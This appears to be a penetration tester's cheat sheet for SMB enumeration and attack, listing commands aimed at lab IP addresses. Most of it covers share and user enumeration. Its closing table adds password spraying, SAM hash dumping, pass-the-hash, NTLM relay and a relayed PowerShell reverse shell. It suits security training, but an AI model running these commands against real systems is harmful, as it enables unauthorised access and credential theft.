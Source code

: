- [ ] Samba enumeration with nmap
```
	nmap -v -p 139,445 -oG smb.txt $IP-RANGE
```
- [ ] Check Default Configuration
	```bash
	cat /etc/samba/smb.conf | grep -v "#\|\;"
	```
- [ ] Restart Samba
	```bash
	sudo systemctl restart smbd
	```
- [ ] Check for share
	```bash
	smbmap -H $IP
	```
	```bash
	crackmapexec smb $IP --shares -u '' -p ''
	```
	```bash
	smbclient -N -L //$IP
	```
	```bash
	smbclient -N -L \\\\$IP\\
	```
- [ ] Connect to SMB share
	```bash
	smbclient //$IP/SHARE_NAME
	```
	```bash
	smbclient \\\\$IP\\SHARE_NAME$
	```
	```bash
	smbclient -U user \\\\10.129.42.197\\SHARENAME
	```
	```bash
	smbclient //$IP/C$ -U site.com/username%Password
	```
	```bash
	smbclient //$IP/transfer -U username --pw-nt-hash 820d6348590813116884101357197052 -W site.com
	```
- [ ] Execute Commands
	```bash
	smb: \> !ls
	smb: \> !cat prep-prod.txt
	```
- [ ] Check Connections
	```bash
	smbstatus
	```
- [ ] SMB Nmap
	```bash
	sudo nmap $IP -sV -sC -p139,445
	```
- [ ] rpcclient
	```bash
	rpcclient -U "" $IP
	```

| **rpcclient Query**       | **Description**                                                   |
| ------------------------- | ----------------------------------------------------------------- |
| `srvinfo`                 | Server information                                                |
| `enumdomains`             | Enumerate all domains that are deployed in the network            |
| `querydominfo`            | Provides domain, server, and user information of deployed domains |
| `netshareenumall`         | Enumerates all available shares                                   |
| `netsharegetinfo <share>` | Provides information about a specific share                       |
| `enumdomusers`            | Enumerates all domain users                                       |
| `queryuser <RID>`         | Provides information about a specific user                        |

- [ ] Brute Forcing User RIDs
```bash
	for i in $(seq 500 1100);do rpcclient -N -U "" $IP -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```
- [ ] Impacket - Samrdump.py
	```bash
	samrdump.py $IP
	```
- [ ] [Enum4Linux-ng](https://github.com/cddmp/enum4linux-ng)
	```bash
	cd enum4linux-ng
	pip3 install -r requirements.txt
	./enum4linux-ng.py $IP -A
	```
	
| **Command**                                                                                                     | **Description**                                                       |
| --------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| `smbclient -N -L //10.129.14.128`                                                                               | Null-session testing against the SMB service.                         |
| `smbmap -H 10.129.14.128`                                                                                       | Network share enumeration using `smbmap`.                             |
| `smbmap -H 10.129.14.128 -r notes`                                                                              | Recursive network share enumeration using `smbmap`.                   |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"`                                                           | Download a specific file from the shared folder.                      |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`                                                    | Upload a specific file to the shared folder.                          |
| `rpcclient -U'%' 10.10.110.17`                                                                                  | Null-session with the `rpcclient`.                                    |
| `./enum4linux-ng.py 10.10.11.45 -A -C`                                                                          | Automated enumeratition of the SMB service using `enum4linux-ng`.     |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`                                            | Password spraying against different users from a list.                |
| `impacket-psexec administrator:'Password123!'@10.10.110.17`                                                     | Connect to the SMB service using the `impacket-psexec`.               |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`            | Execute a command over the SMB service using `crackmapexec`.          |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`                           | Enumerating Logged-on users.                                          |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`                                        | Extract hashes from the SAM database.                                 |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`                            | Use the Pass-The-Hash technique to authenticate on the target host.   |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`                                            | Dump the SAM database using `impacket-ntlmrelayx`.                    |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |
